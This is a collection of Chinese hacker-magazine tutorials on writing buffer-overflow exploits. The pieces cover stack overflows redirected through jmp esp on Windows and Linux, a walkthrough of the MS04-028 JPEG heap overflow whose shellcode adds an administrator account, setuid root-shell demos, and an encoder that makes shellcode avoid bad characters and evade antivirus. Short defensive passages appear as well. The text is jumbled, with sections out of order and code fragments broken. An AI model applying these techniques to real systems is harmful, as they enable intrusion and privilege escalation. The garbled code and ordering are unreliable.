分别看看 Windows 和 Linux 是如何实现跳转的吧。在 Windows 下，ShellCode 的地址一般最高位是 `0x00`，覆盖字符串时容易被截断。后来提出了使用系统核心 DLL 里的 `jmp esp` 指令来完成跳转的思路：用该地址覆盖返回地址，并把 ShellCode 紧跟其后，即可实现跳转。
其实实现跳转的原理是这样的：当程序返回前，ESP 指向原 EIP 的地方，函数返回就是执行 `RET = Pop EIP`。这样 EIP 就是 `jmp esp` 地址，而 ESP 会下移，指向 ShellCode 的第一个字节（图中的 S0）。继续执行后，EIP 跳到 `jmp esp`，此时 ESP 正好指向我们的 ShellCode，于是间接完成跳转。
ShellCode 如图 14 所示：

```c
char name[] =
"..."                 // 填充字符
"\x12\x45\x??\x??"    // 覆盖返回地址为 jmp esp
"..."                 // ShellCode 字节序列
;


```
我们在程序中把 `Name` 赋成这样的值，它看起来很奇怪，但会得到很奇妙的结果。执行后会弹出想要的 DOS 对话框。写 `main` 函数的程序员只负责读取 `Name` 并赋给 `Output` 数组，通常不会意识到 `Name` 中隐藏了精心构造的恶意代码；对任何 `Name` 都当作正常内容处理，但就可能出现意想不到的结果。再看 Linux 下的跳转……

| 适合读者 | 系统分析员、漏洞爱好者、程序员 |
|---|---|
| 前置知识 | 堆溢出基本原理 |
| 难度等级 | 中 |

WTF，技术的痴峰或许是很多人穷尽一生都在不断追求的目标……（编者导语，介绍系列文章目的与学习方法）

## 菜鸟讲 Exploit 编写指南之六：巧妙分析 JPEG 处理溢出

今年微软发布了 MS04-028 的漏洞公告，公告内容是说 Windows XP、Windows XP SP1 和其他一些应用软件在处理伪造 JPEG 图片时会有漏洞。

产生问题的是 `GDIPlus.dll`。很多软件安装后也会带有该 DLL 文件，这是一个堆溢出漏洞……

如果地址最高位不是 `0x00`，那么要实现跳转就简单多了。我们定义一个 `ShellCode` 数组，把 ShellCode 的地址读出来，直接把返回点覆盖成该地址即可。
```c
/* 图18对应代码（节选） */
#include <stdio.h>
#include <string.h>
char shellcode[] = "...";
char name[] = "...";
int main(){
  char output[12];
  strcpy(output,name);
  printf("%s\n",output);
  printf("%p\n",shellcode);
  return 0;
}
```

好，编译、链接、执行！哈哈，弹出新 Shell 来了，如图 19 所示。

```c
#include <stdio.h>
#include <string.h>
char shellcode[] = "...12345";
char name[] = "ww0830";
int main(){
  char output[12];
  strcpy(output,name);
  printf("%s\n",output);
  printf("%p\n",shellcode);
  return 0;
}


```
执行后，程序打印出 ShellCode 的地址……这样我们就得到了在 Linux 下 `Name` 数组的构造结构，如图 17 所示。
然后把 `ShellCode` 数组替换成真正打开 Shell 的代码，这样总的程序代码如图 18 所示。

从上面的对照分析，我们可以看出系统底层的东西是可以融汇贯通的……Windows 下栈溢出的经典文章很多，而 Linux 对初学者不太直观，所以采用与 Windows 对比的方法来帮助理解。

较大，正好我也刚开始学习堆的溢出，就抱着学习的态度，分析这个漏洞的利用，在这里更多的是自己的一些方法和思路的介绍。

### 漏洞起因

JPEG 图像的格式主要如下：

| 标记 | 含义 |
|---|---|
| 0xFFD8 | 图像开始标志 |
| 0xFFE0~0xFFEF | 应用0~应用F标志，标志后面接相关数据段 |
| 0xFFFE | 注释标志 |
| 0xFFDB | 量化表标志 |
| 0xFFC0 | 帧开始标志 |
| 0xFFD4 | 哈夫曼表标志 |
| 0xFFDA | 图像数据标志 |
| 0xFFD9 | 图像结束标志 |

> JPEG（Joint Photographic Experts Group）是联合图像专家小组的英文缩写。该小组制定了著名图像压缩国际标准算法——JPEG 算法。JPEG 图像具有较高压缩比，被广泛用于数字图像、计算机处理和网络传输上。

有兴趣的朋友可以看看相关文档对每个段的详细解释，这里就只说我们关心的部分——注释。JPEG 的注释段允许把注释数据加入到 JPEG 图像中，注释段以 `0xFFFE` 为开始标志，后面 2 个字节的无符号数表明注释数据的长度 +2，这里的 2 是长度值本身占用的 2 个字节，再后面为注释数据。一个合法的注释段如图 1 所示。

| 0xFFFE | 0x0006 | 0x30383330 |
|---|---|---|
| 注释标志 | 注释段长度 | 注释数据 |

图 1

注释数据 `0x30383330` 为 4 个字节，所以长度值 = 4 + 2 = 6。当系统要拷贝注释内容的时候，就分配长度值 - 2 的空间，然后把注释内容拷到那个空间去。

在单个注释段中，可以包含的最大注释数据长度为 65533 字节。由于长度值本身占据的两个字节要计入到长度中，所以长度值的最小值为 2，此时表示没有注释数据在后面——问题就在这里，如果长度值被伪造为 0 或 1，那么 `GDIPlus.dll` 在处理的时候就会认为注释数据的长度为 -2 或 -1，而 -2 或 -1 是无符号数的 `0xFFFE` 或 `0xFFFF`，这样就分配大量空间用于存储，结果把堆管理结构覆盖了。我们可以控制覆盖的数据，将相关的指针改写，这就是堆溢出的基本思路。

### 堆溢出的利用初步

堆溢出的利用还是从 3 点考虑：溢出点的定位、指定堆管理结构的相关指针、ShellCode 的编写；通过覆盖相关指针，跳转到 ShellCode。

对于溢出点的定位，我们还是用 F.Zh 的方法。先打开 SoftIce，用 16 进制编辑器打开一个正常的 JPEG 图像，然后加上一个伪造的注释段，就是加上 `0xFFFE 0001`。先填充注释数据为全 A，当查看修改后的 JPEG 图像时会出错，SoftIce 弹出，可以看到是在 `0x41414141` 写的时候访问违规。然后改注释数据，填充为 0~9 的不断循环，这次出错可以定位溢出点的位置；再改注释数据为 10 个 0、10 个 1……的序列，这次为了定位高位，用公式“高位 * 10 + 低位”计算出溢出点；最后验证一下，就是把计算出来的溢出点覆盖为 `BBBB`，其他数据为全 A，如果是报 `0x42424242` 出错，则说明定位正确，如图 2 所示。
> **WTF：**这里的过程讲得很简略，如果有读者朋友不太理解，可以参考《菜鸟版 Exploit 编写指南之一》和《Windows 下堆溢出初步》，里面介绍方法很详细。

ShellCode 对堆溢出来说，除了一般要注意的问题外，还有一些特殊的要求，比如要考虑堆的恢复等情况。这里可以用别人已经写好的 ShellCode。跳转到 ShellCode，可以使用 SHE、PEB 等方法，但都不是绝对通用和绝对有效，需要针对具体的漏洞和系统具体分析，这一步将是我们考虑的重点。

### 站在巨人的肩上

现在外面有了很多针对 MS04-028 漏洞的 Proof 和利用版本，但都是针对英文版的而且都大同小异。我们可是一群菜鸟，要学习堆的溢出利用，自然要先学习别人是怎么利用的。随便使用哪个程序都可以，就分析 Elia Florio 写的 `WinJPEGAdminExp_MS04-028.sh` 吧。

第一步，先分析程序的结构。用 EditPlus 打开程序，发现只是打出各种 16 进制字符，比如开始的部分如图 3 所示。

```c
# standard JPEG header
printf("\xFF\xD8\xFF\xE0...");
printf("\xFF\xEC\x00\x11...\x00\x07");
printf("\xFF\xEC\x00\xEC...\x01");

# Heap Overflow Payload
...

图 3


```

分析一下这些16进制字符，发现就是按照刚才分析的 JPEG 文件格式构造出来的，比如 FFD8 表示 JPEG 文件开始，FFE0 表示 APP0 的开始，并且果然有一个 FFFE0001 的伪造注释段，之后是大量的填充字符，最后按需要的 ShellCode 和图像结束标志 FFD9。

我们要用这个程序生成一个伪造的 JPEG 文件，只需要把这个程序的输出结果重定向到一个 JPEG 文件中即可。

第二步，分析 ShellCode 的功能。注释上说的是添加一个用户 X，并加入到管理员组。那它是怎么实现的呢？
图 4

然后把 ShellCode 部分拷贝下来，存为一个数组，最后在 Main 中添上 `((void(*)(void))&ShellCode)();`，结果如图 4 所示。

`((void(*)(void))&ShellCode)();` 这句话是关键，它把 ShellCode 转换成一个参数为空、返回为空的函数指针，并调用它。执行这句就相当于执行 ShellCode 数组里的那些数据。
图 5

按 F10 进入调试，并选中 Debug 工具栏的 Disassembly 按钮，出现汇编代码。多按几次 F10，到 `((void(*)(void))&ShellCode)();` 下的 `Call eax` 时，表示马上要跳到 ShellCode 数据去执行了（如图 5）。按 F11 跟进去，就可以看到 ShellCode 代码实现的功能（如图 6）。

经过跟踪和分析，我们可以知道这个 ShellCode 写得很短小而且非常巧妙：先动态查找 Kernel32 地址，再用 Hash 值动态查找需要函数的地址，最后调用 `LoadLibrary("netapi32")`、`NetUserAdd()` 和 `NetLocalGroupAddMember()` 来完成添加管理员功能。
图 6

第三步，尝试运行程序。程序的结构和功能分析得差不多了，接下来看看效果。在 Windows 下把 `.sh` 改为 `.pl`，每行加分号，把 `perl -e 'print "\x41"x1601;'` 改写后安装 ActivePerl 并在命令行执行：`WinJPEGAminExp_MSO4-028.pl > war.jpg`。
图 7

即可生成伪造的 JPEG 文件（如图 7）。打开这个生成的 JPEG 文件后，原本期望触发效果，但 `net user` 查看用户时并没有新增用户，看来直接利用失败了。

> 精彩属于自己！——半手动成功利用漏洞

虽然直接使用现成程序失败了，但不能轻言放弃。再次打开 SoftIce，把溢出点改为 `0x42424242`，重新生成 JPEG 并打开，这次出现错误，SoftIce 弹出，出错代码为：

```asm
mov [edx], eax
mov [ecx+4], eax
```

此时 EDX 为我们写的数据 `0x42424242`，由于该内存不能写，所以导致了访问错误。

> 看见这个错误，大家是不是联想到对标准的堆溢出了呢？

对于 `mov [edx], eax`，如果把 EAX 构造成 ShellCode 地址（比如 `0x11111111`），再把 EDX 的值构造成可写地址，就可能控制执行流程。

默认异常处理的地址，比如 `0x22222222`，这样 `mov [edx], eax` 就是 `mov [0x22222222], 0x11111111`，即用 ShellCode 的地址覆盖默认异常处理的地址，当出现异常的时候，就会执行我们的 ShellCode 了。

那么默认异常处理的地址和 ShellCode 的地址是多少呢？

用 IDA 打开 Kernel32 分析，在 Functions 中选中 `SetUnhandledExceptionFilter`，有如下代码，如图 8 所示。

```asm
SetUnhandledExceptionFilter proc near
mov ecx, [esp+lpTopLevelExceptionFilter]
mov eax, dword_77EB63B4
mov dword_77EB63B4, ecx
retn 4
SetUnhandledExceptionFilter endp
```

> WTF：Windows XP 默认异常的处理指针是 `0x77EB63B4`。当有不能处理的异常发生时，系统会 `Call [0x77EB63B4]`，即执行 `0x77EB63B4` 指向的异常处理程序。

在 SoftIce 中搜索 ShellCode 在内存中的地址，得到起始地址后修改寄存器值继续执行，但发现仍未新增用户。

看起来失败原因是：改动了 EDX 和 EAX 后系统没有出现异常，所以没有机会执行 ShellCode。出错的地方有两句代码：

```asm
mov [edx], eax
mov [ecx+4], eax


```

利用第二句修改后再次触发异常并调试，这次不仅改 EAX 为 ShellCode 地址，还把 ECX 改为 `0x77EB63B0`，最终 ShellCode 成功执行，系统添加了管理员用户（如图 9）。
虽然还不是全自动的程序，但通过不断努力和尝试而获得成功，也会让我们这样的菜鸟兴奋不已。不过不要高兴得太早，还需要寻找全自动的利用方法呢！

## 追求完美！全自动的漏洞利用

堆的分配很复杂，所以堆溢出的利用向来比较困难，往往需要具体漏洞具体分析，这个漏洞也不例外。

对 `mov [edx], eax` / `mov [ecx+4], eax` 的执行路径进行分析后，提出使第一个位置不异常、在第二个位置写入 ShellCode 地址或异常处理地址等思路。

另一个发现是第一次写入时可利用前后指针关系（EAX、ECX）构造可控链路，因此可将前指针设为函数地址，后指针设为 ShellCode 值。

最后两种更完美的解决办法由于时间关系尚未测试，先给出常用方法与思路，供大家讨论改进。
进一步改进方法：ShellCode 地址并不固定，可通过堆管理结构定位。在 Windows 2000 下可利用 `esi+0x4c`，覆盖 `Call [esi+0x4c]` 对应地址实现更稳定定位；Windows XP 下对应偏移不同。

脚本小子：小编最近迷上了缓冲区溢出漏洞的资料收集，刚开始是找网络上缓冲区溢出漏洞技术的文章，后来发现，一些帖子由于反复被转载，出现了很多遗漏，这样就让很多想学习的朋友一头雾水，而且也形不成系统，学不到扎实的技术。考虑到现在很多读者对这个感兴趣，我们将开展系列的溢出漏洞分析和讨论。本文将结合小四的《Windows 2000 缓冲区溢出入门》和 ipxodi 的《Windows 系统下的堆栈溢出》，总结作者自己的学习经验，带着大家一起进入“win2k 下的缓冲区溢出”的神秘地带……

## 带你进入 Windows 缓冲区溢出的神秘地带

◎ 文／www417[c4st]
- 适合对象：编程爱好者、系统研究员
- 前置知识：C 语言、汇编语言、VC++ 6

```text
本文测试环境：
- win2k adv server SP3
- KERNEL32.DLL 版本号：5.00.2195.6697
- USER32.DLL 版本号：5.00.2195.6097
```

首先看看原著四哥的文章，发现四哥的在内存中查找 FF E4 的程序有处明显的问题，不知道是不是我自己看漏了？呵呵，原文请看这里：

```text
http://www.w417.toocare.net/topindex/beginwinoverflow.txt
```

按照四哥的方法生成一个支持 MFC 的文件，打开 cpp 文件，可以看到已经有很多代码了，对照原来的程序，把：

```cpp
cout<<"[OPCODE found at 0x"<<
```

修改成：

```cpp
printf("\n0xFF,0xE4在系统加载%s.dll找到，位于：0x%x", dllname, pos);
```

还要添加上头文件：

```cpp
#include <stdio.h>
```

剩下的照旧就可以（其实也可以按四哥的用 cout 输出，只是我习惯用 printf 而已）。在四哥的文章中使用的是 USER32.DLL，而我的例子中使用的是 KERNEL32.DLL，因为我在 adv server 版中找到了两处 FF E4，确保这个程序能够在你的系统正常运行，之后我们就可以开始了。由于四哥文章的例子是弹出一个 messagebox，而 ipxodi 的例子是 Windows 98 下弹出 command.com，这里我们结合一下，尝试在 Windows 2000 下弹出一个 command.com。首先利用四哥的溢出程序，并不复杂，调试通过后，建立一个 overflow.txt，我们用 a 来填充 overflow.txt，当填充字符串长度为 24 时如下：

```text
aaaaaaaaaaaaaaaaaaaaaaaa
```

运行程序并观察弹出的对话框信息如下：

```text
"0x61616161 指令引用的 0x61616161 内存。该内存不能为 read。"
```

我不清楚其他 Win32 系统是不是也是这个长度，你要根据自己的机器调试。好了，现在程序已经发生溢出了，跳到 0x61616161 执行去，这个地址是我们随便使用的填充字符，系统当然要出错。怎么利用呢？这就要看一下程序的运行机理了，以下是四哥溢出程序的部分汇编代码：

```asm
00401434 5F pop edi
00401435 5E pop esi
00401436 5B pop ebx
00401437 83 C4 50 add esp,50h
0040143A 3B EC cmp ebp,esp
0040143C E8 AE 1F 00 00 call __chkesp
...
00401444 C3 ret
```

这段代码是在程序最后：

```cpp
return nRetCode;
```

这里设断点观察到，很显然 ebp 把地址传给了 esp，在这几句汇编处我们单步运行看看详细的情况，按 F10 单步运行完：

```asm
pop ebp
```

以后，我们发现 ebp 的内容变成 0x61616161，再运行 ret，程序就跳到 61616161？？？运行并出错了。修改 overflow.txt 中最后四个 a 为 b，并且再加上 4 个 c，变成如下这个样子：

```text
aaaaaaaaaaaaaaaaaaaabbbbcccc
```

试验一下：

```text
“0x62626262 指令引用的 0x62626262 内存。该内存不能为 read”
```

很好，现在我们可以指定程序运行指定内存地址的代码了，这样可以先写一段对我们有利的代码放在内存中，当溢出发生时，只要跳转到那里运行就可以了。怎么知道这段代码在什么地方呢？

我们先在 Overflow 里面添加 4 个 a 看看（共有 24 个 a，4 个 b，4 个 c），重新单步运行一下，在 ret 停下来，仔细观察寄存器 eip、ebp 和 esp 的值，此时 eip 保存一个不相关的地址，ebp 保存了 overflow.txt 中第 17 到第 20 个字符，而 esp 保存了堆栈的地址，在我这里 esp 为 0012FF84，再按一下 F10，你会发现 eip 变成了 62626262，ebp 保持没变，esp 加了 4。

这里太重要了！eip 的作用是程序下一步的运行地址，esp 的作用是指向堆栈中下一个数据，显然程序在运行 ret 时，esp 弹出了内存中 0012FF84 的数据作为返回地址，这里保存的是什么？是我们填充的 4 个 b，所以系统跳到 0x62626262 运行去了。弹出后 esp+4，由于堆栈是连续存放数据的，可以推测 esp+4 后指向的内存中保存的是 cccc。

好。在这里暂停一下，理清一下思路，我们可以控制程序的流程，一些对我们有利的代码也被带到了堆栈中（上面的例子中，我们假设 4 个 c 为对我们有利的代码），并且 esp 寄存器由于 ret 运行弹出 4 个 b，而指向 cccc。这时，我们只要再运行一下 jmp esp，就可以跳到 esp 所指的对我们有利的代码处。

我们怎么运行 jmp esp 呢？答案是在内存中找！Windows 系统在启动时，总要加载一些必要的动态链接库文件，这些文件中就有我们需要的 jmp esp 代码，只要知道具体内存地址，我们就成功了。利用文章刚开始的时候我们修改的在内存中查找 FF E4 的程序（FF E4 是 jmp esp 的机器码），可以在 user32.dll 中查找到 FF E4，在我们这个例子中使用 Kernel32.dll，因为它更有通用性。

```text
Microsoft Windows 2000 [Version 5.00.2195]
(C) 版权所有 1985-2000 Microsoft Corp.

C:\WINNT\system32>cd \
C:\>find
```

> **脚本小子：** 这个 find 不是系统自带的 find 程序，而是一个小工具，下载地址是：http://analysist.tocare.net/upload/attach/zzov_find.zip。大家可以用它来找到系统内存中加载的 FF E4。

用这个小程序找到系统加载的 dll 中 0xFF 0xE4 的位置：

```text
[c4st]--www417编译
www417.tocare.net

0xFF 0xE4 在系统加载Kernel32.dll找到，位于0x77e629e3
0xFF 0xE4 在系统加载Kernel32.dll找到，位于0x77e63587
END OF
```

看，在我的机器上可以找到两处，用 UltraEdit 打开 overflow.txt，使用二进制模式编辑，修改原来 bbbb 四个字符为：E3 29 E6 77，保存。再运行一下，出现如下错误提示：

```text
“应用程序发生异常 unknown software exception (0xc0000096)，位置为 0x77e629e3。”
```

很好，我们已经可以跳到有趣的地方了，剩下的就很简单了，先删除 4 个 c，再参照 jpxodi 的 shellcode 继续添上就可以，确定一切没问题了以后，运行一下！如果顺利，你就可以看到 command.com 了。

要提醒的是：不同版本的机器溢出点不同，你必须找到自己的溢出点，但是一般来说，同一版本的 KERNEL32.DLL 或 USER32.DLL，jmp esp 位置是相同的，比如我写本文的时候，就先后用了两台不同的 Win2k adv serv + sp3，但是溢出点是完全一样的，这也就证明了溢出程序的通用性，一般只要稍微修改就可以在 Win2k 所有版本上运行。

其实真正的溢出要比这个复杂很多，特别是很多定位问题，不过由于缓冲区溢出问题在很早以前就被发现并利用，所以实际上已经有一整套基本完善的步骤，加上 ShellCode 的通用性，使得写缓冲区溢出攻击程序已经不像以前一样困难。另外，由于改变了程序运行流程，常常会造成 DOS 攻击，一个好的溢出程序必须要考虑这个问题，否则一旦溢出不成功，就不可以再利用了！

以上是我在学习 Windows 下缓冲区溢出一点收获，希望对大家有帮助，有任何问题可以到 analysist.tocare.net 讨论，如有错误，还望指正。谢谢！

> **脚本小子：** 本文是针对 Windows 2000 SP3 系统的实验。www417 表示，虽然针对 SP3，但实际上，只要简单修改关键数据就可以针对 SP4 了。为了给读者留一个动手实验的机会，他才没有全做，否则读者做什么呢？还能提高水平么？*^_^* 如果你不想敲那么多代码，可以去下载调试好的源程序，完整的源代码到：http://www417.tocare.net/download/overflow.zip 下载。

## 初探缓冲区溢出攻击

缓冲区溢出攻击是一种非常有效而常见的攻击方法，在被发现的众多漏洞中，缓冲区溢出方面的漏洞占用了大部分。下面我们就缓冲区溢出基础方面做一些分析，以便和新手朋友们共同学习提高。本文主要讲解两个内容：堆栈基础知识和缓冲区溢出基本原理，以后将和大家逐步深入地学习下去，希望大家都能掌握这个高级技术！

## 堆栈的基础知识

堆栈是一种抽象数据结构，物理上就是一段连续分配的内存空间。当我们在一个程序中声明各种变量时，静态全局变量将位于数据段并且在程序开始运行的时候被加载，而程序的动态局部变量则分配在堆栈里面。在堆栈的分配中，在地址上其从高往低分配空间（注意：这和内存从低往高分配的方式是截然相反的），并且遵循“后进先出”的原则。堆栈涉及到压栈（push）和出栈（pop）两种操作，堆栈的栈顶位置由寄存器 ESP 指定，压栈时 ESP=ESP-4，同时在 ESP 处存放需要压入堆栈的数据；出栈时 ESP=ESP+4，原先的栈顶数据将不再属于堆栈范围之内，即相当于数据出栈了。

当程序在进行函数调用时，往往是先通过 push 指令压入参数，然后通过 call 指令来调用相关具体函数。譬如，在调用 MessageBoxA 函数的过程中，相关数据进入堆栈的顺序和具体数据如图 1 所示：

```cpp
char large_string[256];
int i;
for(i = 0; i < 255; i++)
    large_string[i] = 'A';
function(large_string);


```

以上是个经典的溢出例子程序，strcpy 也是一个经常引起缓冲区溢出的函数。从上面程序中我们可以看到，传递给 function 的字符串长度要远远大于 buffer 大小，并且 function 没有经过任何长度校验直接用 strcpy 将长字符串拷入 buffer。如果执行该程序，系统一定会报告“Segmentation Violation”错误。下面我们来对程序运行过程作一分析，这样也便于我们了解溢出的基本原理。
当执行 strcpy 时，程序将 256 字节的字符串拷入到 buffer 中，但 buffer 仅能容纳 16 字节。由于 buffer 处于低地址，而 ebp、返回地址均位于紧挨着 buffer 的高地址，由于 C 语言并不进行边界检查，所以结果是紧跟着 buffer 后面的内容也被覆盖掉了，这其中自然也包括 ebp 和返回地址。如上面例子中，ebp 和返回地址均变为 0x41414141h。这样，当 function 函数执行完毕之后，将会把返回地址弹出赋值给寄存器 EIP，并跳到该地址执行（即跳到 0x41414141h），但由于这个地址并不存在程序实际使用的正常访问范围内，所以系统会报错“Segmentation Violation”。如果我们覆盖返回地址的数据不是 0x41414141h，而是可以正常执行的代码位置的话，那么程序将会跳到我们指定的目的地址继续执行。这样，我们就改变了程序的执行流程。
其压入堆栈的数据分别为 4 个参数、返回地址和 EBP。对于一般函数来说，如果函数有局部变量，接下来，就在堆栈中开辟相应的空间以构造变量。函数执行结束，这些局部变量的内容将被丢失，但是不被清除。在函数返回的时候，弹出 EBP，恢复堆栈到函数调用的地址，弹出返回地址到 EIP 以继续执行程序。

## 缓冲区溢出的基本原理初探

我们先找一个例子说明一下什么是缓冲区溢出：

```cpp
void function(char *str)
{
    char buffer[16];
    strcpy(buffer, str);
}

void main()
```

如果，该代码位置是经过精心构造的后门程序，那么系统将会被控制。而这里所说的代码实际上就是攻击者在编写溢出程序提交数据时一起提交的 ShellCode。关于 ShellCode 的编写，将是我们以后要讲到的问题。其实缓冲区溢出入门比较简单，关键在深入以后才会有更多新天地等着我们去欣赏，不急哦，慢慢来，成功并不遥远！

## 堆栈溢出攻击与防范

文 / wolf_boy

### 开场白

我先介绍下自己，我是 wolf_boy，今年13岁，初一学生……本文主要介绍一些堆栈溢出的攻击与防范原理以及实现……文中如有疏漏，请各位 GGJJ 不吝指教。

### 攻击篇

溢出是网络安全中经常接触到的一个问题……那么溢出到底是什么？这种攻击方式需要怎么利用和防范？慢慢往下看就知道了。

溢出就是程序对用户提交的数据不作任何检查或者检查不完全而导致的程序/内存错误……我们先来看看堆栈溢出是怎么样的，看看下面的程序：

```c
void lizi(int a,int b)
{
    char buffer[5];
    char buffer1[15];
}
void main()
{
    lizi(1,2);
}
```

上面这段 C 程序在汇编中显示如下：

```asm
<main>
pushl $1
pushl $2
call lizi
<lizi>
pushl %ebp
movl %esp,%ebp
subl $20,%esp
```

我们通过这两个程序比较可以发现……首先使两个参数入栈，其次是下一条指令入栈（ret 地址）……然后执行 RET 弹出到 EIP 里。

```c
void lizi(char *buffer)
{
    char buf[8];
    sprintf(buf,"%s",buffer);
}
void main()
{
    char buffer[999];
    int i;
    for(i=0;i<998;i++)
        buffer[i]='a';
    lizi(buffer);
}
```

运行它之后会出现异常……因为 buffer 中间有 998 个 a，而 buf 只能容纳 8 个字节，这时自然就会覆盖 ret 地址和其他内存……这里我给大家一个程序演示：

```c
void lizi(char *buf)
{
    char sr[42];
    strcpy(sr,buf);
}
void main()
{
    char shellcode[]="...";
    int i;
    char buf[20000];
    unsigned ret=0x00010000;
    memset(buf,0x90,sizeof(buf));
    memcpy(buf+14,ret,4);
    memcpy(buf+1900,shellcode,strlen(shellcode));
    lizi(buf);
}
```

给程序加上 SETUID 位，退出 ROOT 然后用普通用户运行，看到没有？bash# 出来了！后来又有一些高手想出了新的方法：用一个指向 CALL ESP 或者 JMP ESP 的地址来覆盖 RET……

```c
void lizi(char *str)
{
    char buffer[14];
    strcpy(buffer, str);
}

void main()
{
    char str[99];
    unsigned ret;
    int i;
    __asm {
        pop $+4
        call esp
        pop ebx
    }

    char shellcode[] = "\xeb\x11\x5e\x89\x76\x88\x31\xc0.../bin/sh";

    for(i=0; i<16; i++) str[i]=0x90;
    sprintf(ret, "返回地址是:%X", ebx);
    memcpy(str+16, ret, 4);
    memcpy(str+20, shellcode, strlen(shellcode));
    lizi(str);
}
```

上面 lizi 函数不检查参数的长度，直接就 strcpy 到 buffer 里面，返回地址指向 CALL ESP，ESP 指向 shellcode。

好了，说了两种攻击方法了，大家一定很想知道防范的方法吧？其实堆栈溢出的方法很多，如果你还想要知道更多的方法就看看《黑客防线》其他牛人们写的文章吧，下面说说防御方法。

### 防御篇

其实，要防止堆栈溢出最好的方法是写程序的时候保持清新的头脑，这样才能写出更加安全的代码。这里我给大家介绍两种防范堆栈溢出的方法。第一种，其实现在很多人都在用这种防御方法，那就是函数返回地址检查法。

这里我自己写了段代码供大家参考。其实函数返回地址检查法首先是在函数调用的时候把返回地址放到另外一个堆栈里面，在函数返回的时候，再比较 RET 和它的值，如果不一样，那么就是被人非法改写了。可以最先在程序最前面申请一个空间：

```c
int x=0;
User[128];
```

然后写两个函数：

```c
int start()
```

```c
{
    __asm {
        mov eax, [esp+2]
        mov [user+x], eax
        add x, 4
    }
}
```

该函数用于把 RET 地址传给 USER，看结尾的函数：

```c
end()
{
    __asm {
        sub x, 4
        mov eax, esp
        cmp user, eax
        ...
    }
}
```

第二种我觉得是我自己发明的哦，嘿嘿，不知道是不是没见过高手们的东西，见笑了。这种方法可以防止 NOPS 这种攻击手法。我的想法是首先给程序一个新的堆栈，然后在每次返回的时候判断返回地址是否是这个堆栈里面的地址，这样程序如果想直接跳到堆栈执行的话就不可能了。看代码：

```c
unsigned ret;
static char stack[8_mb];
__asm {
    mov esp, (stack+sizeof(stack));
}
```

这段代码放在程序前面，给程序换个新的堆栈，然后再给各函数判断返回地址：

```c
lizi()
{
    __asm {
        mov eax, esp
        mov ret, eax
    }
    if(ret < (stack+sizeof(stack)) || ret > (stack+0)) {
        ...
    }
}
```

这样就能起到比较好的防范方法了，其实最重要的方法是一定要对用户输入的数据进行长度、类别检查（注意：如果判断长度时候，不要接受负数，这样也可能会引起溢出）。

大家还记得以前 Linux 的 DO_BRK() 函数吗？它就是因为对参数没有进行好的检查而导致的。这个漏洞导致普通用户可以改写 UID 的值，虽然不属于溢出，但是它也是因为对用户提交的数据不作检查而导致的。

## 绝对特殊字符的 ShellCode

现在很多溢出都对 ShellCode 有特殊的要求，比如不能出现某些特殊字符，或者要求长度小于多少等。刚学会写溢出程序的朋友，遇到这些问题还是很头痛的，想在外面去找现成的，好像一时半会儿不容易找到，只好自己写或者把外面公布的拿来修改了。

关于有长度限制的 ShellCode，解决起来相对来说容易一些。一个方法是针对具体的漏洞来写比较小的 ShellCode，外面有很多的模板，看懂了可以根据自己的需求来定制。还有一个方法是绕开长度的限制，例如只做一个简单的搜索 ShellCode 的代码，真正的 ShellCode 放到其他地方等。

如果有字符上的限制就比较麻烦，前面几篇《菜鸟版 Exploit 编写指南》讲到 CMail 的一个漏洞，要求 ShellCode 中不能含有大写字母，这时候 ShellCode 如何去选取就成了一个困难。遇到不能有特殊字符的，有个解决方法是写一个不包含有这些特殊字符的搜索代码，把真正的 ShellCode 放到其他地方，或者就放在后面，用搜索代码去寻找内存中原始的串。

针对具体的某一个漏洞来说，不包含某些字符的 ShellCode 可以很容易地写出来，但是通用性不见得很好，于是我们很自然地就想到可不可以写出一个修改 ShellCode 的模板，可以在比较方便的情况下快速获得或者是动态生成满足要求的 ShellCode。

在切入正题之前，有一些假设需要说明。首先是 ShellCode 对字符串的长度没有限制。倘若是对长度和字符都有严格的限制，我想讨论范围已经远远超过了我的能力。为了方便起见，下面提到的 ShellCode 都指原始的只经过 XOR 处理的 ShellCode，Encoded Code 指按照我们的方法编码后的 ShellCode，而 Decode Code 指的是运行时解码并生成可执行 ShellCode 的代码。

我们知道，外面发布的 ShellCode 都是由两部分组成的，前面一段是 Decode Code，后面一段是编码后的 ShellCode。第一段的存在是因为第二段（也就是具有真正意义上绑定、反弹或者其他功能的 ShellCode）如果不经过编码，通常会含有很多 ASCII 码为 0 的字符，而溢出的时候 ShellCode 通常会通过一个字符串的形式传送过去，为 0 的字符会被认为是字符串的结束标记而导致后面字符全部被截断。

所以，出现第一段也是一个原始的防止特殊字符出现的方法。流行的情况是第二段也就是可执行的 ShellCode 与 0x99 异或一下，第一段作为一个解码器，在执行时动态定位第二段，然后将第二段编码与 0x99 异或解码后跳转运行真正的 ShellCode。

我们还是按照 Encoded Code 和 Decode Code 分开的思路想下去，单独用异或的话，只能保证仅有的几个字符能够避免。如果换一个方法，比如把 Encoded Code 看成一个很长的数字，并按照减法拆开，由于组合的存在，也许可以避免更多的字符出现。下面是这种方法的描述。

假设原始的 ShellCode 中任意一个字符是 O，我们把他拆成（固定的）几个数字的和，比如 x、y、z，也就是要满足 O = x + y + z。理论上说，满足条件的 x、y、z 的组合有很多种。假如我们用 xyz 的方法来存储原始的 ShellCode，就可以避免几乎 2/3 的 ASCII 字符。而且这样子存储 ShellCode，除 Decode Code 部分，可以有多种变形，可能对防止一些杀毒软件和防火墙也有着一定的效果。

进一步说，如果对 ShellCode 的长度没有要求，我们甚至可以几乎无限地扩展拆分原始 ShellCode，但是具体操作中为了 Decode Code 的可行性，还是采取一些比较简单的拆分方法为好。因为完整的 ShellCode 实际上应该包括 Decode Code，而一旦在字符上有所规定，首先 Decode Code 必须满足这个要求。

而一个方法再好，如果某一部分不能实现，那也是没有用的。我们先在这里完成一个实现，后面再说说其他的方法。还是按照上面的假定，我们先写一个简单的 C++ 代码，把 ShellCode 按照这种方式拆分开来。具体地说，就是将 ShellCode 取出来后，穷举一下所有的可能情况，如果一个拆分可以满足不包含任何指定的特殊字符，就认为这种拆分是可能的。看如下代码，很短：

```c
unsigned char p, q;
unsigned int a;
for(i=0; i<sizeof(sc)-1; i++) {
  for(int j=1; j<127; j++) {
    p = (char)j;
    a = sc[i] - j;
    d = (char)(a - i);
    for(int k=0; k<sizeof(badchar); k++)
      if(d==badchar[k] || p==badchar[k]) goto l;
    printf("\\x%02x\\x%02x", p, q);
    break;
  l:;
  }
  if(j==128) printf("failed!");
}
```

```c
rel%i4=p, rel%i4=i-d; // can be exchanged
if(i%4==3)
  printf("\\x%02x\\x%02x\\x%02x\\x%02x", ...);

